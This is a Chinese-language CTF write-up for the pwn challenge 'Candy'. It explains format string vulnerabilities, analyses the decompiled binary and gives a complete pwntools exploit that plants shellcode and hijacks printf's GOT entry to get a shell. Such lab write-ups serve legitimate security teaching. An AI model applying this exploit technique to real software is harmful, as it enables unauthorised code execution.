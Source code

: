 # Candy

- 作者：pn1fg
- 参考：-
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Pwn
- 镜像：[svuctf-winter-2023/babyrop](https://ghcr.io/svuctf/svuctf-winter-2023/babyrop)
- 端口：70

## 题目描述

## 题目解析

- 源码：[main.c](/build/main.c)
- 考点：格式化字符串，GOT 劫持，shellcode

格式化字符串函数是根据格式化字符串来进行解析的 。**那么相应的要被解析的参数的个数也自然是由这个格式化字符串所控制**。比如说'%s'表明我们会输出一个字符串参数。

![](writeup/images/printf.png)

在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 %，直接输出到相应标准输出。 
- 当前字符是 %， 继续读取下一个字符 
- 如果没有字符，报错 
- 如果下一个字符是 %, 输出 % 
- 否则根据相应的字符，获取相应的参数，对其进行解析并输出 

那么假设，此时我们在编写程序时候，写成了下面的样子

```c++
printf("Color %s, Number %d, Float %4.2f");
```
此时我们可以发现我们并没有提供参数，那么程序会如何运行呢？程序照样会运行，会将栈上存储格式化字符串地址上面的三个变量分别解析为
- 1.解析其地址对应的字符串 
- 2.解析其内容对应的整形值 
- 3.解析其内容对应的浮点值

这基本就是格式化字符串漏洞的基本原理了。

### 查看文件信息
查看文件类型（`file` 命令）：
```shell
$ file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0059aa9c4a34393d23601ab109b1b940e1a6424e, for GNU/Linux 4.4.0, not stripped
```
这是一个64位 ELF 文件（`ELF 64-bit LSB executable`），动态链接（`dynamically linked`），没有去除符号（`not stripped`）

检查文件保护机制（`checksec`命令）：
```shell
$ checksec pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
### 分析漏洞成因

反编译 `main` 函数：
```c++
ulong main(void)

{
    sym.init();
    sym.banner();
    sym.vuln();
    return 0;
}
```
反编译 `init` 函数：
```c++
void sym.init(void)

{
    sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stderr, 0, 2, 0);
    sym.imp.mprotect(reloc.puts, 0x1000, 7);
    return;
}
```
`mprotect` 函数原型
```c++  
int mprotect(const void *start, size_t len, int prot);
```
`mprotect()` 函数把自 start 开始的、长度为 len 的内存区的保护属性修改为 prot 指定的值。这里的 prot 为7，所以这一块内存区则**可读可写可执行**

反编译 `vuln` 函数：
```c++
void sym.vuln(void)

{
    ulong format;
    ulong var_4h;

    sym.imp.puts("Input your favorite candy:");
    while( true ) {
        sym.menu();
        sym.imp.__isoc99_scanf(0x402423, &var_4h);
        if (var_4h == 3) {
            sym.imp.puts("There is no Unique Human Adventured");
            return;
        }
        if (3 < var_4h) break;
        if (var_4h == 1) {
            sym.imp.read(0, obj.name, 0x100);
        }
        else {
            if (var_4h != 2) break;
            sym.imp.puts("There\'s a candy voucher in the flag!");
            sym.imp.memset(&format, 0, 0x100);
            sym.imp.read(0, &format, 0x100);
            sym.imp.printf(&format);
        }
    }
    sym.imp.puts("Don\'t you like all of them?");
    return;
}
```
分析一下 `vuln` 函数的逻辑，最外层 `while` 循环，然后输入一个整形值，接下来 `if` 条件判断，当输入的值为 `1` 时，调用 `read` 函数向 `obj.name` 中读入 0x100 字符串，`obj.name` 位于`bss`段上，有可执行权限，当输入的值为 `2` 时，执行的分支语句为：

```c++
sym.imp.puts("There\'s a candy voucher in the flag!");
sym.imp.memset(&format, 0, 0x100);
sym.imp.read(0, &format, 0x100);
sym.imp.printf(&format);
```
这里有很明显的格式化字符串漏洞，可以修改任意地址

这题我们的利用思路如下：

- 在 `obj.name` 处填入 shellcode 
- 利用格式化字符串漏洞劫持 GOT 表，修改 `printf` 处地址为 `obj.name` 地址即可执行 shellcode，获取 shell

### 编写利用程序
[exp.py](writeup/exp.py)
```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

if args['REMOTE']:
    io = remote('IP',port)
else:
    io = process("./pwn")

elf = ELF("./pwn")

def exec_fmt(pad):
    io = process("./pwn")
    io.sendline(b"2")
    io.send(pad)
    info = io.recv()
    io.close()
    return info

fmt = FmtStr(exec_fmt)
offset = fmt.offset
print("offset ===> ", offset)

pad = fmtstr_payload(offset, {elf.got["printf"]: elf.sym["name"]})

io.sendlineafter(b"Command:", b"1")
io.send(asm(shellcraft.sh()))

io.sendlineafter(b"Command:", b"2")
io.sendlineafter(b"flag!\n", pad)

io.interactive()
```